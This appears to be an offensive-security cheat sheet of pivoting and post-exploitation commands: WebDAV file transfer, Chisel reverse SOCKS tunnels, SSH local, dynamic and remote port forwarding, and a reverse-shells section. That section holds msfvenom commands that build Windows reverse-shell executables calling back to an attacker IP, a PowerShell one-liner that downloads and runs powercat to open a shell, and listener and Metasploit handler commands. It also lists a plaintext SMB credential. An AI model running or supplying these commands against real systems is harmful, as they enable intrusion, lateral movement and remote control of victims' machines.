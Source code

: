 **WebDAV**

    ~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ~/webdav
    ...
    net use * http://192.168.50.100
    copy fichier_local Z:\
    copy Z:\fichier_distant ./

**Chisel**

    vim /etc/proxychains4.conf
    ./chisel_linux_1.7.7 server -reverse -p 9999
    ...
    Invoke-WebRequest -Uri http://192.168.50.100/chisel_1.7.7_windows_amd64.exe -Outfile .\chisel.exe
    .\chisel.exe client 192.168.50.100:9999 R:socks

**SSH Local Port Forwarding**

    ssh -N -L 0.0.0.0:4455:172.16.100.100:445 database_admin@10.4.100.100
    -----
    ss -ntplu
    smbclient -p 4455 -L //192.168.100.100/ -U Tim --password=Mdp123

**SSH Dynamic Port Forwarding**

    ssh -N -D 0.0.0.0:9999 database_admin@10.4.100.100
    -----
    echo “socks5 192.168.100.100 9999” >> /etc/proxychains4.conf
    vim /etc/proxychains4.conf


**SSH Remote Port Forwarding**

    ssh -N -R 127.0.0.1:2345:10.4.100.100:5432 timothe@192.168.50.100
    -----
    psql -h 127.0.0.1 -p 2345 -U postgres

**SSH Remote Dynamic Port Forwarding**

    ssh -N -R 9998 timothe@192.168.50.100
    -----
    sudo systemctl start ssh
    sudo ss -ntplu
    echo “socks5 127.0.0.1 9998” >> /etc/proxychains4.conf
    sudo vim /etc/proxychains4.conf
    
## Reverse-shells 

    msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.50.100 LPORT=443 -f exe > /var/www/html/msfvenom.exe
    msfvenom -p windows/shell/reverse_tcp LHOST=192.168.50.100 LPORT=443 -f exe > /var/www/html/msfvenom.exe
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.100 LPORT=443 -f exe > /var/www/html/msfvenom.exe
    msfvenom -p windows/x64/powershell_reverse_tcp LHOST=192.168.50.100 LPORT=443 -f exe > /var/www/html/msfvenom.exe
    msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.50.100 LPORT=443 -f exe > /var/www/html/msfvenom.exe
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.50.100 LPORT=443 -f exe > /var/www/html/msfvenom.exe
    IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.50.100/powercat.ps1'); powercat -c 192.168.50.100 -p 443 -e powershell
    ...
    rlwrap nc -nvlp  443
    msfconsole -x "use exploit/multi/handler;set payload windows/powershell_reverse_tcp;set LHOST 192.168.50.100;set LPORT 443;run;"
    ...
    